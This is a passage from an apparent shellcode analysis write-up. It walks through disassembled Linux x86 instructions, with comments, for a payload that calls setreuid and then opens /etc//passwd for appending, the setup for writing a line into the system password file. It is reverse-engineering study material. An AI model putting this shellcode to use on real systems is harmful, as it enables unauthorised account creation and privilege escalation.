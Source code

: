 Then the newly disassembled instructions:

```x86asm
label1:             
00000051  59                pop ecx             ; ptr to 0x2b (string to write)
00000052  8B51FC            mov edx,[ecx-0x4]   ; 0x26 = 38 (uses opcode from E826 at offset 0x26)
00000055  6A04              push byte +0x4      ; 
00000057  58                pop eax             ; write()
00000058  CD80              int 0x80            ; ssize_t write(int fd, const void *buf, size_t count);



0000005A  6A01              push byte +0x1      
0000005C  58                pop eax             
0000005D  CD80              int 0x80            ; exit()
```

These remaining instructions pop the value on the stack (pointer to the string) into `ecx`, then it moves `[ecx-0x4]` into `edx`. This instruction is interesting. It is using the opcode from `0x2b - 0x4` which is `0x27`. This is the number `0x26` from this call line:

```x86asm
00000026  E826000000        call 0x51               ; call label1 
```

This parameter is the length of the string to read. Quite an interesting instruction for an automated tool to write, very clever. 

The next instructions just move the [write()](https://man7.org/linux/man-pages/man2/write.2.html) syscall enumerator value of 0x4 into `eax` and executes the syscall.

Finally a value of `0x1` is moved into `eax` by pushing it to the stack and popping it off into the register. A syscall is executed to gracefully [exit()](https://man7.org/linux/man-pages/man3/exit.3.html) the shellcode with the status code of 1. 

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code in its entirety:

```x86asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax             ; 0x46 from stack
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 70$"
    ; setreuid()
    ; int setreuid(uid_t ruid, uid_t euid);
00000007  CD80              int 0x80




00000009  6A05              push byte +0x5
0000000B  58                pop eax             ; 0x5 from stack
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 5$"
    ; open ()
    ; int open(const char *pathname, int flags);
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373   ; (ascii) dwss
00000014  682F2F7061        push dword 0x61702f2f   ; (ascii) ap//
00000019  682F657463        push dword 0x6374652f   ; (ascii) cte/
0000001E  89E3              mov ebx,esp             ; /etc//passwd
00000020  41                inc ecx                 ; ecx = 1
00000021  B504              mov ch,0x4              ; ecx = 0x401 (O_WRONLY|O_APPEND)
00000023  CD80              int 0x80                ; open("/etc//passwd", 0x0401)
```